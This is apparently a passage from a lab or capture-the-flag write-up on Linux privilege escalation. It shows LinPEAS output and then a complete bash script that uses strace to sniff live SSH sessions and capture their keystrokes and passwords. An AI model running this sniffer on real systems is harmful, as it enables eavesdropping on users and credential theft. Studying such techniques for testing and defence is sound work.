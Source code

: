 ### linpeas

We run `LinPeas` and we found this interesting technique

```bash
╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory
gdm-password Not Found
gnome-keyring-daemon Not Found
lightdm Not Found
vsftpd Not Found
apache2 Not Found
sshd: process found (dump creds from memory as root)
```

Tried this:

https://www.infosecmatter.com/ssh-sniffing-ssh-spying-methods-and-defense/

```bash
frank@workstation:~$ cat > script.sh
#!/bin/bash
# By infosecmatter.com

trap 'rm -f -- ${tmpfile}; exit' INT

tmpfile="/tmp/$RANDOM$$$RANDOM"
pgrep -a -f '^ssh ' | while read pid a; do echo "OUTBOUND $a $pid"; done >${tmpfile}
pgrep -a -f '^sshd: .*@' | while read pid a; do
  tty="${a##*@}"
  from="`w | grep ${tty} | awk '{print $3}'`"
  echo "INBOUND $a (from $from) $pid"
done >>${tmpfile}

IFS=$'\n'; select opt in `cat ${tmpfile}`; do
  rm -f -- ${tmpfile}
  pid="${opt##* }"
  wfd="[0-9]"
  rfd="[0-9]"
  strace -e read,write -xx -s 9999999 -p ${pid} 2>&1 | while read -r a; do
    if [[ "${a:0:10}" =~ ^write\(${wfd}, ]] \
    && [ ${#wfd} -le 3 ] \
    && ! [[ "$a" =~ \ =\ 1$ ]]; then
        echo -en "`cut -d'"' -f2 <<<${a}`"
    elif [[ "${a:0:10}" =~ ^read\(${rfd}, ]] \
    && [ ${#rfd} -le 3 ]; then
        echo -en "`cut -d'"' -f2 <<<${a}`"
    elif [[ "$a" =~ ^read\((${rfd}+),.*\ =\ [1-9]$ ]]; then
        fd="${BASH_REMATCH[1]}"
        if [[ "$a" =~ \ =\ 1$ ]]; then
          rfd="$fd"
        fi
    elif [[ "${a:0:10}" =~ ^write\((${wfd}+), ]] \
    && [ ${#wfd} -gt 4 ]; then
        fd="${BASH_REMATCH[1]}"
        if [[ "${a}" =~ \\x00 ]]; then continue; fi
        if [[ "${a}" =~ \ =\ 1$ ]] || [[ "${a}" =~ \"\\x0d\\x0a ]]; then
          wfd="$fd"
        fi
    fi
  done
  echo ">> SSH session ($opt) closed"
  exit 0
done
frank@workstation:~$ chmod +x script.sh
frank@workstation:~$ ./script.sh
```